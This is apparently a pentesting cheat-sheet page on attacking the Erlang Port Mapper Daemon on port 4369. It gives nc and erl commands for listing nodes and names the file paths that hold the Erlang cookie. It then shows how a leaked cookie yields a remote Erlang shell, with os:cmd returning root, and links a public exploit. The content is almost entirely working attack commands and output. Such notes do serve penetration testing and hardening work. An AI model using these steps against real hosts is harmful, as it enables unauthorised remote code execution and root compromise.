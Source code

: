 # 4369 - Erlang

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd" %}

{% code overflow="wrap" %}
```bash
# enum ports and nodes manually
echo -n -e "\x00\x01\x6e" | nc -vn <IP> 4369

# Via Erlang
apt install erlang
erl # Once Erlang is installed this will promp an erlang terminal
1> net_adm:names('<HOST>'). # This will return the listen addresses

# Get RCE with cookie
# Cookie location is ~/.erlang.cookie or /var/lib/rabbitmq/.erlang.cookie
# target.fqdn is IP, test is node name extracted before
$ erl -cookie YOURLEAKEDCOOKIE -name test2 -remsh test@target.fqdn 
Erlang/OTP 19 [erts-8.1] [source] [64-bit] [async-threads:10]
Eshell V8.1 (abort with ^G)

# At last, we can start an erlang shell on the remote system.

(test@target.fqdn)1>os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"

# If manual way with cookie does not work try https://www.exploit-db.com/exploits/49418
```
{% endcode %}
